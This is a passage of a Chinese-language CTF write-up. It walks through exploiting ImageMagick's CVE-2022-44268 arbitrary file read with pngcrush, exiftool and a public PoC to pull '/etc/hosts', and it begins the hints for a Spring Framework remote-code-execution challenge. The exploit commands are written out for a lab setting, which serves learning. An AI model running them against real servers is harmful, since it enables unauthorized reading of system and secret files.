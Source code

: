 >答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
網頁服務使用了什麼圖片編輯工具?檢視原始碼有重要訊息!

[提示二]
網頁弱點為ImageMagick 任意文件讀取

[提示三]
請上傳圖片得到必要訊息

[提示四]
下載上傳後的圖片分析內容
#### Exploit
1. 先掃port: nmap->8080
2. 確認目前的開源工具為ImageMagick
3. 搜尋一下ImageMagick的Vulnerability->CVE-2022-44268
4. 用[現成工具](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
```bash
$ sudo apt-get install pngcrush exiftool exiv2 -y
$ pngcrush -text a "profile" "/etc/hosts" abc.png
$ exiv2 -pS pngout.png
```
上傳到系統，如果該檔案存在就會回傳一張圖片到前端供我們下載，之後就可以用exiftool分析
```bash
$ exiftool return.png
...
Raw Profile Type                : ..      13.6539323739343234366663300a.
...
$ python -c "print(bytes.fromhex('6539323739343234366663300a').decode('utf-8'))"
e92794246fc0
```
目前不知道具體flag的位置和檔案名稱

賽後和asef以及ccccc有聊到這一題，發現居然是在前端的code有一串base64被hidden，裡面其實就是flag檔案的絕對位置，幹...真的通好久啊
### Q8
#### 題目敘述
>你透過情報收集，聽聞某集團子公司有項服務上線使用的測試主機(192.168.100.88)因資訊人員便宜行事竟放在公開網路上。
此測試機(Spring Framework)的某項專案裡存在一個Web表單服務(/greeting)，它存在著某個漏洞，讓你有機會可以進行攻擊，你需要先找到正確的服務端口與頁面，並藉由這個程式的漏洞取得遠端主機的控制權限，進而取得公司內部資料(flag.txt)。
>
>[連線IP/連結資訊]
>192.168.100.88
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
使用Nmap與目錄掃描工具(http://192.168.100.88:???/???/greeting)

[提示二]
AccessLogValve
